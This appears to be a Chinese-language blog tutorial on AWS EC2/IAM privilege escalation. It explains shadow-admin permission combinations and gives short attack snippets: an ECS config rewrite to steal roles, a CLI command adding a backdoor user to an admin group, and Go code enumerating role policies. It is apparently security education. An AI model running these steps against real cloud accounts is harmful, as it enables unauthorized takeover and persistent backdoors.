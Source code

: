 ```yaml
---
author: Sunny Tsai
title: "[Day 28] 天堂雲端 - EC2權限升級"
date: 2023-10-11
math: true
tags: [
    "aws",
    "ec2",
    "iam"
]
categories: [
    "2023鐵人賽"
]
series: ["2023鐵人賽-天堂雲端之從開始到接管"]
---
```

# 權限升級
在AWS雲端環境中，權限升級是透過IAM完成升級的，攻擊者需要找到哪個帳戶可以做到這件事。

## Shadow admin
[這裡](https://docs.cyberark.com/CEM/Latest/en/Content/CloudAdmin/kd_shadow-admin-per-platform.htm)有詳細列出各大雲端服務的shadow admin。這裡先列出幾個特別的：

### iam-PassRole & ec2-AssociateIamInstanceProfile
[AWS官方文件](https://docs.aws.amazon.com/zh_tw/AWSEC2/latest/UserGuide/iam-roles-for-amazon-ec2.html)
iam-PassRole用於控制哪些身份可以將IAM角色分配給其他AWS服務或資源。例如：具有該權限才可以將角色分配給EC2 intance。
ec2-AssociateIamInstanceProfile權限用於管理EC2 instance與IAM Instance Profile的關聯，確保EC2 instance有獲取所需的權限。
如果攻擊者可以存去擁有這兩個權限的帳戶，可以將特權instance profile附加在感染的EC2 instance上。

### iam-PassRole & iam-CreateInstanceProfile & iam-AddRoleToInstanceProfile
[AWS官方文件](https://docs.aws.amazon.com/zh_tw/emr/latest/ManagementGuide/emr-iam-roles-create-permissions.html)
iam-CreateInstanceProfile權限允許用戶或角色建立新的IAM Instance Profile，例如可以使用EC2 instance訪問DynamoDB；iam-AddRoleToInstanceProfile權限允許用戶或角色添加到現有的IAM Instance Profile中。
iam-CreateInstanceProfile跟iam-AddRoleToInstanceProfile通常一起使用，所以通常用戶或角色裡面兩個會同時存在。攻擊者如果可存取這兩個權限的帳戶，可以建立特權instance profile到受感染的instance。

### iam-PassRole & iam-RemoveRoleFromInstanceProfile &iam-AddRoleToInstanceProfile
iam-RemoveRoleFromInstanceProfile權限允許刪除IAM配置文件中的用戶或角色。在AWS中，通常一個instance只能對應一個角色，但一個角色可以對應多個instance，以此降低權限管理的複雜性。
例如說一個Lamdba Function只能跟一個角色關聯，該角色定義了這個Lamdba函數在執行期間的權限。一個AWS Glue Job只能與一個角色關聯，該角色定義了Glue Job在執行期間的權限。
如果一個instance已經有角色了，攻擊者可以利用iam-RemoveRoleFromInstanceProfile刪除原本角色，添加特權instance profile到受感染的instance。

### iam-SetDefaultPolicyVersion & （ iam:CreatePolicyVersion or iam:PutUserPolicy）
[AWS官方文件](https://docs.aws.amazon.com/zh_tw/IAM/latest/UserGuide/access_policies_managed-versioning.html)
iam:CreatePolicyVersion跟iam:PutUserPolicy同樣都是允許IAM account為一個已存在的管理式策略創建新的版本。例如說把Action改成" * "，Resource也改成" * "。或是直接替換成有這些權限的role。兩者的差異主要是`iam:PutUserPolicy`修改用戶的行內策略，而 `iam:CreatePolicyVersion` 為管理式策略創建新版本。
iam-SetDefaultPolicyVersion權限允許將特定權限版本設定為默認版本。通常版本是按順序創建的，新版本會取代舊版本。
通過設定默認版本，攻擊者可以修改客戶管理的policy，將非特權instance提升為特權instance


### ec2:ModifyInstanceAttribute
除了可以用於建立reverse shell之外，可以改變任何使用者的數據。例如說建立EC2 instance到ECS叢集中，這樣可以滲透這些服務(ex docker)，並竊取role。

修改了ECS agent的配置文件（範例）
```bash
#!/bin/bash
echo ECS_CLUSTER=<cluster-name> >> /etc/ecs/ecs.config;echo ECS_BACKEND_HOST= >> /etc/ecs/ecs.config;
```

# 權限維持
對於雲端環境來說，創建一個具有完整存取權限的新用戶是最簡單的進入後門的方法（但很容易被發現）

### 新用戶
```shell
> aws iam add-user-to-group --user-name BlackdoorUser --group-name AdminGroup
```



-----


# AWS提權

## 1. 取得Role policy
AWS Role Policy分兩種
![](https://imgur.com/Io1BiqQ.png)
- inline policy
    - 管理員創建管理的策略，可以直接與AWS indentity(account、role、group)相關聯，並附加在這個identity上。通常有這個意味著有好料。
- attack policy
    - AWS 托管策略（AWS Managed Policies）
    - Group/Role/Instance Policy


```go
func main() {
	sess, err := session.NewSession(&aws.Config{
		Credentials: credentials.NewStaticCredentials(access_key_id, secret_access_key, token),
		Region:      aws.String(region),
	})
	if err != nil {
		fmt.Println("Error creating session:", err)
		return
	}

	svc := iam.New(sess)

	roleName := "ROLE"  # 填寫角色名稱

	// Get Policy

	// Inline Policy
	inlineInput := &iam.ListRolePoliciesInput{
		RoleName: aws.String(roleName),
	}

	inlineResult, err := svc.ListRolePolicies(inlineInput)
	if err != nil {
		fmt.Println("Error listing role policies:", err)
		return
	}

	fmt.Println("Inline Policies:")
	for _, policyName := range inlineResult.PolicyNames {

		getPolicyInput := &iam.GetRolePolicyInput{
			RoleName:   aws.String(roleName),
			PolicyName: policyName,
		}

		policyResult, err := svc.GetRolePolicy(getPolicyInput)
		if err != nil {
			fmt.Println("Error getting role policy:", err)
			return
		}

		policyDocument, err := url.QueryUnescape(*policyResult.PolicyDocument)
		if err != nil {
			fmt.Println("Error decoding policy document:", err)
			return
		}

		fmt.Println("Policy Name:", *policyResult.PolicyName)
		fmt.Println("Policy Document:", policyDocument)
	}
	fmt.Println("--------------------------------")
	fmt.Println("Managed Policies:")

	// Managed Policy
	managerInput := &iam.ListAttachedRolePoliciesInput{
		RoleName: aws.String(roleName),
	}

	managerResult, err := svc.ListAttachedRolePolicies(managerInput)
	if err != nil {
		fmt.Println("Error listing role policies:", err)
		return
	}
	for _, policy := range managerResult.AttachedPolicies {
		fmt.Println("Policy ARN:", *policy.PolicyArn)
	}
}
```

## 2. 找到Admin & Shadow Admin
